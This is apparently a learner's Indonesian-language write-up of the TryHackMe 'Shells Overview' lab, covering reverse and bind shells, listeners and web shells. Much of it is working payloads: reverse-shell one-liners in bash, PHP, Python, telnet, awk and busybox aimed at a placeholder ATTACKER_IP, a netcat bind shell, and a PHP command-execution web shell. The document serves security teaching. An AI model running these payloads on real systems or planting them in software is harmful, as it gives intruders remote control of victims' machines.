


# TryHackMe: Shells Overview

- **Room Link:** [Shells Overview](https://tryhackme.com/room/shellsoverview)
- **Category:** Offensive Security Tooling
- **Difficulty:** Easy

## Shellls Introduction

Shells dalam cybersecurity sering sekali dipakai oleh attackers buat ngontrol sistem dari jarak jauh (remote), yang membuat mereka jadi bagian penting dari rantai serangan (attack chain)., kita bakal eksplor berbagai jenis shells yang dipake dalam offensive security, bedanya apa saja, dan kapan pakainya. Pengetahuan ini bisa ngebantu ningkatin skill penetration testing dan exploitation, dan juga ngebantu kita paham gimana cara mendeteksi kalau ada remote shell yang lagi dipake attacker di dalam organisasi.

### Learning Objectives

kita bakal bahas tujuan pembelajaran berikut:

- Memahami Shells dalam Offensive Security
- Cara Setup dan Menggunakan Reverse dan Bind Shells
- Deploy Web Shells

## Shells Overview

### What is a Shell?

Shell itu ibarat jembatan alias software yang membuat kita bisa ngobrol sama Sistem Operasi (OS). Bisa bentuknya grafis (GUI), tapi biasanya Command-Line Interface (CLI), tergantung OS targetnya.

Di dunia cyber security, shell ini merujuk ke sesi khusus yang dipake attacker pas berhasil jebol sistem. Lewat shell ini, mereka bisa jalanin perintah atau software sesuka hati.

Banyak hal nakal yang bisa dilakuin kalau sudah dapet shell:

- **Remote System Control**: Attacker bisa ngontrol sistem target dari jauh.
- **Privilege Escalation**: Kalau akses awal masih terbatas (user biasa), attacker bakal cari cara buat naik pangkat jadi admin/root.
- **Data Exfiltration**: Bisa baca dan copy data-data sensitif keluar dari sistem.
- **Persistence**: Membuat "pintu belakang" (backdoor) atau user baru agar nanti bisa masuk lagi kapan saja tanpa harus nge-hack dari ulang.
- **Post-Exploitation**: Aktivitas lanjutan seperti sebar malware, membuat akun tersembunyi, atau hapus jejak (logs).
- **Pivoting**: Pakai sistem yang sudah dijebol buat nyerang sistem lain di jaringan yang sama. Jadi batu loncatan gitu.

Intinya, semua jenis shell yang bakal kita bahas nanti tujuannya ya buat memfasilitasi aksi-aksi di atas ini.

## Reverse Shell

### Reverse Shell

Reverse shell, atau kadang disebut **"connect back shell"**, adalah teknik paling populer buat dapet akses ke sistem target.

Bedanya sama shell biasa, di sini **koneksi dimulai dari sistem target ke mesin attacker**.

Kenapa gini? Agar bisa ngehindarin deteksi firewall. Biasanya firewall ngeblok koneksi masuk (ingress) sembarangan, tapi ngebolehin koneksi keluar (egress). Jadi kalau target yang connect duluan ke kita, firewall seringkali bakal ngebolehin dan kita dapet shell.

### How Reverse Shells Work

**Set up a Netcat (nc) Listener**

Agar paham cara kerjanya, kita coba pakai tools **Netcat**. Tools ini support banyak OS dan bisa baca/tulis data lewat jaringan.

Seperti yang sudah dibahas, reverse shell bakal _connect back_ ke mesin attacker. Jadi, di sisi attacker (kita), kita harus "nungguin" koneksi itu. Caranya kita pasang **Listener** pakai command berikut:

```bash
nc -lvnp 443
listening on [any] 4444 ...
```

Penjelasan flag-nya:

- `-l`: **Listen mode**, memerintah Netcat buat nunggu koneksi masuk.
- `-v`: **Verbose**, agar lebih cerewet (menampilkan output lebih detail).
- `-n`: **No DNS**, tidak usah resolve hostname, pakai IP saja agar cepat.
- `-p`: **Port**, menentukan port mana yang mau dipake buat nunggu (contoh di atas pakai port **443**).

**Tips:** Kenapa pakai port 443?
Sebenernya port berapa saja bisa (53, 80, 8080, 139, 445), tapi attacker sering pakai port umum seperti **80 (HTTP)** atau **443 (HTTPS)**. Tujuannya agar koneksinya nyatu sama traffic internet biasa, jadi tidak dicurigai sama security appliances atau firewall.

### Gaining Reverse Shell Access

Setelah listener siap, langkah selanjutnya adalah attacker harus ngejalanin **payload reverse shell** di mesin target.

Payload ini biasanya manfaatin celah keamanan (vulnerability) atau akses ilegal yang sudah didapet sebelumnya buat ngejalanin perintah yang bakal ngebuka shell aka akses sistem lewat jaringan.

Ada banyak jenis payload tergantung OS dan tools yang ada. Salah satu contoh klasik yang sering dipake adalah **Pipe Reverse Shell**.

Contoh payload-nya seperti gini:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

**Penjelasan Payload:**

- `rm -f /tmp/f`: Hapus file `/tmp/f` kalau sudah ada, agar tidak error.
- `mkfifo /tmp/f`: Membuat **Named Pipe** (FIFO - First In First Out) di `/tmp/f`. Pipe ini fungsinya seperti saluran komunikasi dua arah.
- `cat /tmp/f`: Baca data dari pipe itu dan nunggu input masuk.
- `| sh -i 2>&1`: Output dari `cat` (input kita) dioper ke shell (`sh`) secara interaktif (`-i`). `2>&1` artinya redirect error message ke standard output, jadi kita bisa melihat kalau ada error.
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`: Output dari shell (hasil perintah yang dijalankan) dikirim balik ke attacker lewat Netcat. Tanda `>/tmp/f` ngebalikin lagi outputnya ke pipe awal, agar jadi _loop_ komunikasi dua arah yang jalan terus.

Intinya, payload ini ngebuka shell `bash` atau `sh` dan "membuang" input/output-nya ke Netcat listener kita.

### Attacker Receives the Shell

Begitu payload dijalankan di target, listener di mesin attacker bakal nangkep koneksinya dan Kita dapet akses shell.

Contoh output di terminal attacker bakal seperti gini:

```bash
attacker@arch:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@rootuser:~$
```

Melihat baris `connect to ... from ...`, itu tandanya koneksi berhasil!
Sekarang kita bisa ketik perintah di terminal kita, dan perintah itu bakal dieksekusi di mesin target (si `target@rootuser`). Rasanya seperti kita lagi duduk di depan komputer target langsung.

Dari sini, kita bisa lanjut ke tahap berikutnya seperti **Privilege Escalation** atau **Data Exfiltration**.

## Bind Shell

### Bind Shell

Jadi kebalikannya reverse shell, di sini **attacker yang connect ke target**.

Alurnya:

1. Target buka port **(listening)**.
2. Attacker connect ke IP & Port target.
3. Attacker dapet akses shell.

Teknik ini biasanya dipake kalau target punya aturan firewall yang ketat buat koneksi keluar (outgoing blocked), tapi ada celah buat koneksi masuk.

**Kekurangan:**
Cara ini kurang populer karena butuh port yang terbuka dan nunggu di sisi target, yang mana gampang banget dideteksi sama firewall atau Intrusion Detection System (IDS).

### How bind shells work

**Setting Up the Bind Shell on the Target**

Agar bisa jalan, kita harus membuat target "listening" dulu. Salah satu command yang bisa dipake di mesin target adalah:

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

**Penjelasan Payload:**

- `rm -f /tmp/f`: Hapus file `/tmp/f` kalau ada, agar bersih dan tidak konflik.
- `mkfifo /tmp/f`: Membuat **Named Pipe** di `/tmp/f`. Ini saluran komunikasi dua arah kita.
- `cat /tmp/f`: Baca data dari pipe dan nunggu input.
- `| bash -i 2>&1`: Output `cat` dioper ke shell `bash` secara interaktif. Error message (`stderr`) juga diredirect ke `stdout`.
- `| nc -l 0.0.0.0 8080`: Jalanin Netcat dalam **listen mode** (`-l`) di semua interface (`0.0.0.0`) port **8080**. Ini intinya nungguin attacker buat connect.
- `> /tmp/f`: Output dari Netcat (hasil perintah shell) dibalikin lagi ke pipe, agar komunikasinya nyambung terus.

**Catatan:**
Kita pakai port **8080** karena port di bawah 1024 (seperti 80, 443) butuh akses **root** (elevated privileges). Kalau kita cuma user biasa, kita harus pakai port tinggi (di atas 1024).

**Terminal on the Target Machine:**

```bash
target@rootuser:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Setelah command ini dijalankan, terminal target bakal "gantung" (waiting) nungguin koneksi dari kita.

### Attacker Connects to the Bind Shell

Sekarang setelah target "menunggu" di port 8080, kita sebagai attacker tinggal inisiasi koneksi ke sana pakai Netcat.

Command-nya:

```bash
nc -nv TARGET_IP 8080
```

**Penjelasan Command:**

- `nc`: Panggil Netcat.
- `-n`: **No DNS**, agar cepat dan tidak berisik ngelakuin DNS lookup.
- `-v`: **Verbose**, agar kita tau pas koneksinya berhasil ("open").
- `TARGET_IP`: IP address mesin target yang sudah kita pasangin bind shell.
- `8080`: Port yang lagi dibuka sama bind shell di target.

**Attacker Terminal (After Connection):**

```bash
attacker@arch:~$ nc -nv 10.10.13.37 8080
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@rootuser:~$
```

Pas koneksi berhasil (`open`), kita langsung dapet shell Coba ketik perintah seperti `whoami` atau `ls`, pasti jalan di mesin target.

## Shells Listener

Seperti yang sudah kita pelajari, reverse shell bakal connect dari target ke mesin attacker. Biasanya kita pakai Netcat buat nangkep koneksinya, tapi Netcat bukan satu-satunya tools yang bisa dipake.

kita eksplor tools lain yang bisa jadi listener buat capture shell.

### Rlwrap

Netcat biasa itu "polos" banget. Tidak ada history command (kalau pencet panah atas `^` malah keluar simbol aneh), dan tidak bisa edit text dengan nyaman.
Nah, **Rlwrap** (Readline wrapper) ini penyelamat kita. Dia memberi fitur history dan editing keyboard ala shell modern ke tools yang tidak punya fitur itu, seperti Netcat.

**Cara Pakai (Netcat + Rlwrap):**

```bash
attacker@arch:~$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

Cuma nambahin `rlwrap` di depan command Netcat, hidup jadi jauh lebih indah. Bisa pakai panah atas/bawah buat melihat history command

### Ncat

Ncat ini versi "upgrade"-nya Netcat yang dikembangin sama project NMAP. Fiturnya lebih kaya, salah satunya support enkripsi (SSL).

**Listening for Reverse Shells (Standard):**

```bash
attacker@arch:~$ ncat -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

**Listening with SSL (Encrypted):**

```bash
attacker@arch:~$ ncat --ssl -lvnp 4444
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: B7AC F999 7FB0 9FF9 14F5 5F12 6A17 B0DC B094 AB7F
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
```

Flag `--ssl` membuat koneksi jadi terenkripsi. Ini berguna banget agar traffic shell kita tidak gampang diintip sama IDS/IPS atau admin jaringan.

### Socat

Socat ini tools yang super powerful, ibarat Swiss Army Knife nya networking. Dia bisa membuat koneksi (socket) antara dua sumber data apa saja.

**Default Usage (Listening for Reverse Shell):**

```bash
attacker@arch:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```

**Penjelasan Command:**

- `-d -d`: **Debug** mode (verbose), agar muncul pesen log-nya.
- `TCP-LISTEN:443`: Membuat listener TCP di port 443.
- `STDOUT`: Arahin data yang masuk ke layar terminal (Standard Output).

Socat syntax nya agak beda dan lebih kompleks, tapi fiturnya jauh lebih canggih daripada Netcat biasa.

## Shells Payloads

Shell Payload itu command atau script yang kita jalanin di target buat ngebuka akses shell. Bisa buat reverse shell (mengirim koneksi) atau bind shell (nunggu koneksi).

Kita bakal bahas beberapa payload populer di Linux.

### Bash

**Normal Bash Reverse Shell**

Salah satu payload paling populer dan sering dipake di Linux adalah Bash reverse shell.

Command-nya:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

**Penjelasan Command:**

- `bash -i`: Jalanin shell Bash secara **interaktif**.
- `>&`: Redirect output (stdout) dan error (stderr) ke alamat yang sama.
- `/dev/tcp/ATTACKER_IP/443`: Ini fitur unik Bash. Dia ngebuka koneksi TCP ke `ATTACKER_IP` di port `443`.
- `0>&1`: Redirect input (stdin) ke stdout (yang sudah tersambung ke koneksi TCP tadi).

Intinya, command ini membuat input dan output shell Bash kita "nyambung" langsung ke komputer attacker lewat jaringan.

### Bash Advanced Payloads

Selain yang standar, ada juga variasi payload Bash yang mainin **File Descriptors**. Ini berguna kalau cara biasa tidak jalan atau diblokir.

**1. Bash Read Line Reverse Shell**

```bash
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```

**Penjelasan:**

- `exec 5<>...`: Membuat file descriptor baru (nomor 5) yang nyambung ke koneksi TCP.
- `while read line`: Baca perintah dari attacker lewat file descriptor 5.
- `$line 2>&5 >&5`: Jalanin perintahnya, terus kirim output dan error balik ke file descriptor 5 (ke attacker).

**2. Bash With File Descriptor 196**

```bash
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196
```

**Penjelasan:**
Sama seperti yang di atas, tapi pakai nomor file descriptor acak (196) buat ngehindarin konflik atau deteksi simpel. Dia nge-spawn shell `sh` yang input/output-nya diredirect ke koneksi TCP (fd 196).

**3. Bash With File Descriptor 5 (Short Version)**

```bash
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

**Penjelasan:**
Mirip banget sama yang pertama, tapi lebih ringkas.

- `bash -i`: Jalanin bash interaktif.
- `5<> /dev/tcp...`: Buka koneksi TCP di fd 5.
- `0<&5 1>&5 2>&5`: Redirect semua standar input (0), output (1), dan error (2) ke fd 5.

### PHP

Kalau targetnya web server yang jalanin PHP (seperti WordPress atau Joomla), payload ini sangat efektif

**PHP Reverse Shell Using exec**

```bash
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```

**Penjelasan Payload:**

- `php -r`: Jalanin kode PHP langsung dari terminal (inline).
- `fsockopen("ATTACKER_IP",443)`: Buka koneksi socket ke attacker.
- `exec("sh <&3 >&3 2>&3")`: Jalanin shell `sh`. Angka `3` di sini adalah file descriptor yang dipake sama socket tadi. Jadi input/output shell dialirin lewat socket itu.

Payload ini sering dipake di web shell atau RCE (Remote Code Execution) di aplikasi web berbasis PHP.

Selain `exec`, ada fungsi PHP lain yang bisa dipake, terutama kalau `exec` diblokir sama admin (disabled_functions).

**1. PHP Using `shell_exec`**

```bash
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

Sama persis seperti `exec`, cuma beda fungsi pemanggilnya saja.

**2. PHP Using `system`**

```bash
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'
```

Fungsi `system` ini bakal ngejalanin command dan langsung menampilkan hasilnya (output) ke browser atau terminal.

**3. PHP Using `passthru`**

```bash
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

`passthru` cocok banget kalau outputnya berupa data mentah (binary data), dia bakal mengirim output "apa adanya" balik ke kita.

**4. PHP Using `popen`**

```bash
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
```

`popen` ngebuka process file pointer. Jadi dia ngebuka koneksi seperti file biasa, tapi isinya command yang mau dijalankan.

### Python

Python ini bahasa wajib buat anak security. Hampir semua sistem Linux modern sudah ada Python-nya.

**1. Python Reverse Shell by Exporting Environment Variables**

```bash
export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

**Penjelasan Payload:**

- `export RHOST` & `export RPORT`: Kita set IP attacker dan Port sebagai environment variable dulu.
- `os.getenv`: Python bakal baca variable RHOST dan RPORT tadi buat dipakek konek.
- `pty.spawn("/bin/sh")`: Ini kuncinya buat dapet shell yang stabil (interaktif).

**2. Python Reverse Shell Using the subprocess Module**

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Penjelasan Payload:**

- `subprocess.call`: Kita pakai modul `subprocess` buat ngejalanin shell `/bin/sh`.
- `os.dup2`: Redirect stdin, stdout, stderr ke socket.

**3. Short Python Reverse Shell**

```bash
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

**Penjelasan Payload:**

- Versi one-liner yang lebih ringkas.
- Pakai list comprehension `[os.dup2(...) for f in (0,1,2)]` agar hemat karakter.
- Langsung spawn `/bin/bash`.

### Others

Selain bahasa pemrograman, kita juga bisa pakai tools bawaan sistem seperti Telnet, AWK, dan BusyBox.

**1. Telnet**

```bash
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
```

**Penjelasan:**

- `mktemp -u`: Membuat nama file temporary unik.
- `mkfifo $TF`: Membuat named pipe.
- `telnet ...`: Konek ke attacker.
- `| sh`: Output dari telnet (perintah dari attacker) di-pipe ke shell buat dieksekusi.

**2. AWK**

```bash
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}'
```

**Penjelasan:**

- AWK punya fitur TCP built-in
- `/inet/tcp/0/...`: Syntax khusus AWK buat buka koneksi TCP.
- `|&`: Operator buat komunikasi dua arah di AWK.
- Script ini intinya baca perintah dari attacker, jalanin, terus kirim balik outputnya.

**3. BusyBox**

```bash
busybox nc ATTACKER_IP 443 -e sh
```

**Penjelasan:**

- BusyBox itu seperti swiss army knife nya Linux embedded, isinya banyak tools standar yang digabung jadi satu binary kecil.
- Payload ini sebenernya cuma manggil `nc` (Netcat) yang ada di dalem BusyBox.
- `-e sh`: Execute shell setelah konek (fitur yang sering ilang di Netcat biasa, tapi ada di versi BusyBox).

## Web Shells

**Web shell** itu script jahat yang ditulis pakai bahasa pemrograman web (seperti PHP, ASP, JSP) yang diem-diem ditanam di web server korban. Tujuannya? Agar attacker bisa jalanin perintah sistem langsung lewat browser

Biasanya web shell ini disusupin lewat celah keamanan seperti **File Upload** (upload foto tapi isinya script), **RCE**, atau **LFI**.

### Example PHP Web Shell

Ini contoh web shell PHP yang paling simpel tapi mematikan:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**Penjelasan Code:**

- `$_GET['cmd']`: Script ini bakal nunggu input parameter bernama `cmd` dari URL (method GET).
- `system(...)`: Fungsi ini bakal ngejalanin apapun isi dari `cmd` sebagai perintah sistem.

**Cara Pakainya:**
Kalau script ini disimpan dengan nama `shell.php` di web server, attacker tinggal buka URL seperti gini:

```url
http://target.com/shell.php?cmd=whoami
```

Browser bakal menampilkan hasil command `whoami` (misal: `www-data`). Cuma modal browser bisa ngontrol server

### Existing Web Shells Available Online

Kekuatan bahasa pemrograman yang didukung oleh web server memungkinkan web shells punya banyak fungsionalitas dan bisa menghindari deteksi di waktu yang sama. Ayo kita eksplor beberapa web shell paling populer yang bisa ditemukan online:

- **p0wny-shell** - Web shell PHP satu file yang minimalis tapi bisa buat remote command execution.
<p align="center">

</p>

- **b374k shell** - Web shell PHP yang lebih kaya fitur dengan kemampuan file management dan command execution, serta fungsionalitas lainnya.
<p align="center">

</p>

- **c99 shell** - Web shell PHP yang terkenal dan tangguh dengan fungsionalitas yang sangat luas.
<p align="center">

</p>

Kamu bisa nemuin lebih banyak web shells di: [r57shell.net](https://www.r57shell.net/index.php).
